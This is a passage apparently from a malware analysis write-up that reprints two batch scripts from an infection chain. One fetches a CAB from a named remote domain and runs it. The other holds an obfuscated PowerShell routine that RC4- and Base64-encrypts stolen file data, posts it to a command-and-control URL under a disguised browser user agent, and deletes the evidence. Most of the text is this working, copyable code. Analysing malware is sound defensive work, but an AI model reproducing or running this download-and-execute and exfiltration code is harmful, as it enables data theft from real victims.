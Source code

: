 This script encrypts stolen data with RC4 and Base64, then sends it to the C2 like it’s just normal web traffic. Deletes the evidence and drops `upok.txt` to say, “Mission accomplished.”

### Sixth Batch Script: 54312804.bat

```bat
@echo off
pushd %~dp0
if exist "temprun.bat" (
    del /f /q temprun.bat
)
call 53452693.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/list.php?f=%COMPUTERNAME%.txt" "%~dp0XZJln.cab" "1" > nul
expand XZJln.cab -F:* %~dp0 > nul
del /f /q XZJln.cab > nul
call temprun.bat > nul
```

1. Wipes any old `temprun.bat`.
2. Grabs `XZJln.cab` from `ausbildungsbuddy.de` using our downloader buddy, `53452693.bat`.
3. Unpacks the CAB, trashes it, and runs `temprun.bat`.

### Seventh Batch Script: temprun.bat (Another Uploader)

```bat
@echo off
pushd %~dp0
set "tgurl12=%~1"
set fN12=fn
set fD12=fd
powershell -command "function dqjQqCAcuxwo{param ($AypZvQNXlqB,$oFoEuXrMFE);$OpsMmFLPLhtK = [System.Text.Encoding]::UTF8.GetBytes($AypZvQNXlqB);    $WTCOeBCxKCA = [System.Text.Encoding]::UTF8.GetBytes($oFoEuXrMFE);$exkQgtSevvHH = New-Object byte[](256);$aFHiHiPvSyCj = New-Object byte[](256);for ($IwMAnTWddEw = 0; $IwMAnTWddEw -lt 256; $IwMAnTWddEw++) {$exkQgtSevvHH[$IwMAnTWddEw] = $IwMAnTWddEw;$aFHiHiPvSyCj[$IwMAnTWddEw] = $WTCOeBCxKCA[$IwMAnTWddEw %% $WTCOeBCxKCA.Length];}$zTrCGqDmezfE = 0;for ($IwMAnTWddEw = 0; $IwMAnTWddEw -lt 256; $IwMAnTWddEw++) {$zTrCGqDmezfE = ($zTrCGqDmezfE + $exkQgtSevvHH[$IwMAnTWddEw] + $aFHiHiPvSyCj[$IwMAnTWddEw]) %% 256;$zUGqmBHCJGBv = $exkQgtSevvHH[$IwMAnTWddEw];$exkQgtSevvHH[$IwMAnTWddEw] = $exkQgtSevvHH[$zTrCGqDmezfE];$exkQgtSevvHH[$zTrCGqDmezfE] = $zUGqmBHCJGBv;}$iFUDhaIUWPC = New-Object byte[] $OpsMmFLPLhtK.Length;$IwMAnTWddEw = 0;$zTrCGqDmezfE = 0;for ($ZBwUQRSnvRO = 0; $ZBwUQRSnvRO -lt $OpsMmFLPLhtK.Length; $ZBwUQRSnvRO++) {$IwMAnTWddEw = ($IwMAnTWddEw + 1) %% 256;$zTrCGqDmezfE = ($zTrCGqDmezfE + $exkQgtSevvHH[$IwMAnTWddEw]) %% 256;$zUGqmBHCJGBv = $exkQgtSevvHH[$IwMAnTWddEw];$exkQgtSevvHH[$IwMAnTWddEw] = $exkQgtSevvHH[$zTrCGqDmezfE];$exkQgtSevvHH[$zTrCGqDmezfE] = $zUGqmBHCJGBv;$WVKnqgCFOsmZ = ($exkQgtSevvHH[$IwMAnTWddEw] + $exkQgtSevvHH[$zTrCGqDmezfE]) %% 256;$iFUDhaIUWPC[$ZBwUQRSnvRO] = $OpsMmFLPLhtK[$ZBwUQRSnvRO] -bxor $exkQgtSevvHH[$WVKnqgCFOsmZ];}$yJmaZfkmCsIK = [System.Convert]::ToBase64String($iFUDhaIUWPC);return $yJmaZfkmCsIK;};$bWcJabpQCOOF=(Get-Date).Ticks.ToString();$JbCLXcveMq='%tgurl12%';$lXbJSrwCOBN='%~3';$aRmxzjRXbQEn='%~dp0%~2';$ldbmjzEjszem=gc -Path $aRmxzjRXbQEn -Raw | Out-String;Add-Type -AssemblyName 'System.Web';$lXbJSrwCOBN=dqjQqCAcuxwo -AypZvQNXlqB $lXbJSrwCOBN -oFoEuXrMFE $bWcJabpQCOOF;$ldbmjzEjszem=dqjQqCAcuxwo -AypZvQNXlqB $ldbmjzEjszem -oFoEuXrMFE $bWcJabpQCOOF;$mkgEkQZnuGV = [System.Web.HttpUtility]::ParseQueryString('');$mkgEkQZnuGV['%fN12%']=$lXbJSrwCOBN;$mkgEkQZnuGV['%fD12%']=$ldbmjzEjszem;$mkgEkQZnuGV['r']=$bWcJabpQCOOF;$EYHCSDhekYzP=$mkgEkQZnuGV.ToString();$FLuapLlREN=[System.Text.Encoding]::UTF8.GetBytes($EYHCSDhekYzP);$AUkaAFoqKP=[System.Net.WebRequest]::Create($JbCLXcveMq);$AUkaAFoqKP.Method='PO'+'ST';$AUkaAFoqKP.ContentType='appl'+'ic'+'ation/x'+'-ww'+'w-for'+'m-ur'+'le'+'nco'+'ded';$AUkaAFoqKP.UserAgent = 'Moz'+'illa/5'+'.0 (Wi'+'ndows N'+'T 10.0;Wi'+'n64;x64)';$AUkaAFoqKP.ContentLength=$FLuapLlREN.Length;$KcSSLPNfvFL = $AUkaAFoqKP.GetRequestStream();$KcSSLPNfvFL.Write($FLuapLlREN,0,$FLuapLlREN.Length);$KcSSLPNfvFL.Close();$OUeDTggoYiM=$AUkaAFoqKP.GetResponse();if($OUeDTggoYiM.StatusCode -eq [System.Net.HttpStatusCode]::OK){Remove-Item -Path $aRmxzjRXbQEn;$ucBwEXJQluYC='%~dp0up'+'o'+'k.t'+'xt';New-Item -ItemType File -Path $ucBwEXJQluYC;}" > nul
```
